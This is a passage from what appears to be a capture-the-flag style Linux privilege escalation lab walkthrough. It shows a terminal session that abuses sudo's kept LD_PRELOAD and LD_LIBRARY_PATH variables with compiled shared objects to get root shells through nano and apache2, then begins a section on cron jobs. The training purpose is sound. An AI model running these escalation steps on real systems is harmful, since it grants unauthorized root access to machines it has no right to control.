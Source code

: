 **Remember to exit out of the root shell before continuing!**

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so nano
root@debian:/home/user# cd ~
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff853b3000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f8b23ed1000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f8b23cad000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f8b23a73000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f8b23857000)
        libc.so.6 => /lib/libc.so.6 (0x00007f8b234eb000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f8b232e6000)
        librt.so.1 => /lib/librt.so.1 (0x00007f8b230de000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f8b22ea7000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f8b22ca2000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f8b22a7a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f8b2438e000)
user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# exit
exit
apache2: bad user name ${APACHE_RUN_USER}
user@debian:~$ 
```



1. Read and follow along with the above.

`No answer needed`

## Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.
